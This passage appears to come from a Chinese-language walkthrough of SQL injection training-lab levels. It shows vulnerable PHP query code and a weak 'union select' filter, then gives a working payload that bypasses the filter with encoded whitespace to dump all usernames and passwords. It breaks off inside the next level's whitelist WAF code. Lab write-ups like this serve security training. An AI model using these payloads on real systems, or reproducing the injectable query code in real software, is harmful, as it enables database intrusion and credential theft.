 ```php
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
function blacklist($id)
{
//$id= preg_replace('/[\/\*]/',"", $id);                //strip out /*
//$id= preg_replace('/[--]/',"", $id);                  //Strip out --.
//$id= preg_replace('/[#]/',"", $id);                   //Strip out #.
//$id= preg_replace('/[ +]/',"", $id);                  //Strip out spaces.
//$id= preg_replace('/select/m',"", $id);               //Strip out spaces.
//$id= preg_replace('/[ +]/',"", $id);                  //Strip out spaces.
$id= preg_replace('/union\s+select/i',"", $id);         //Strip out spaces.
return $id;
}
```

闭合`')`

payload

```
1111')%0bunion%0bselect%0b1,(select%0bgroup_concat(username,':',password)%0bfrom%0busers),3||('1
```

## less-29 waf

源代码

```php
if(isset($_GET['id']))
{
        $qs = $_SERVER['QUERY_STRING'];
        $hint=$qs;
        $id1=java_implimentation($qs);
        $id=$_GET['id'];
        whitelist($id1);
    
		// connectivity 
        $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
        $result=mysql_query($sql);
        $row = mysql_fetch_array($result);
        if($row)
        {
                echo 'Your Login name:'. $row['username'];
                echo 'Your Password:' .$row['password'];
        }
        else 
        {
                print_r(mysql_error());
        }
}
```

waf

```php
function whitelist($input)
{
        $match = preg_match("/^\d+$/", $input);
        if($match)
        {
                //echo "you are good";
                //return $match;
        }
        else
        {
                header('Location: hacked.php');
                //echo "you are bad";
```